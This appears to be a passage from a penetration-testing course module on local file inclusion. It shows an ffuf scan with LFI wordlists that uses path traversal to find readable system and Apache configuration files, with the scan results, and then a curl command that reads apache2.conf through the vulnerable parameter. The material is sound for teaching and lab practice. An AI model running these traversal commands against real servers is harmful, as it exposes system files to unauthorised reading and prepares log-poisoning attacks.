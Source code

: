 As we have seen in the previous section, we need to be able to identify the correct logs directory to be able to perform the log poisoning attacks we discussed. Furthermore, as we just discussed, we may also need to read the server configurations to be able to identify the server webroot path and other important information (like the logs path!).

To do so, we may also use the [LFI-Jhaddix.txt](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt) wordlist, as it contains many of the server logs and configuration paths we may be interested in. If we wanted a more precise scan, we can use this [wordlist for Linux](https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Linux) or this [wordlist for Windows](https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Windows), though they are not part of `seclists`, so we need to download them first. Let's try the Linux wordlist against our LFI vulnerability, and see what we get:

  Automated Scanning

```shell-session
trmchale@htb[/htb]$ ffuf -w ./LFI-WordList-Linux:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ' -fs 2287

...SNIP...

 :: Method           : GET
 :: URL              : http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ
 :: Wordlist         : FUZZ: ./LFI-WordList-Linux
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response size: 2287
________________________________________________

/etc/hosts              [Status: 200, Size: 2461, Words: 636, Lines: 72]
/etc/hostname           [Status: 200, Size: 2300, Words: 634, Lines: 66]
/etc/login.defs         [Status: 200, Size: 12837, Words: 2271, Lines: 406]
/etc/fstab              [Status: 200, Size: 2324, Words: 639, Lines: 66]
/etc/apache2/apache2.conf [Status: 200, Size: 9511, Words: 1575, Lines: 292]
/etc/issue.net          [Status: 200, Size: 2306, Words: 636, Lines: 66]
...SNIP...
/etc/apache2/mods-enabled/status.conf [Status: 200, Size: 3036, Words: 715, Lines: 94]
/etc/apache2/mods-enabled/alias.conf [Status: 200, Size: 3130, Words: 748, Lines: 89]
/etc/apache2/envvars    [Status: 200, Size: 4069, Words: 823, Lines: 112]
/etc/adduser.conf       [Status: 200, Size: 5315, Words: 1035, Lines: 153]
```

As we can see, the scan returned over 60 results, many of which were not identified with the [LFI-Jhaddix.txt](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt) wordlist, which shows us that a precise scan is important in certain cases. Now, we can try reading any of these files to see whether we can get their content. We will read (`/etc/apache2/apache2.conf`), as it is a known path for the apache server configuration:

  Automated Scanning

```shell-session
trmchale@htb[/htb]$ curl http://<SERVER_IP>:<PORT>/index.php?language=../../../../etc/apache2/apache2.conf

...SNIP...
        ServerAdmin webmaster@localhost
        DocumentRoot /var/www/html

        ErrorLog ${APACHE_LOG_DIR}/error.log
        CustomLog ${APACHE_LOG_DIR}/access.log combined
...SNIP...
```
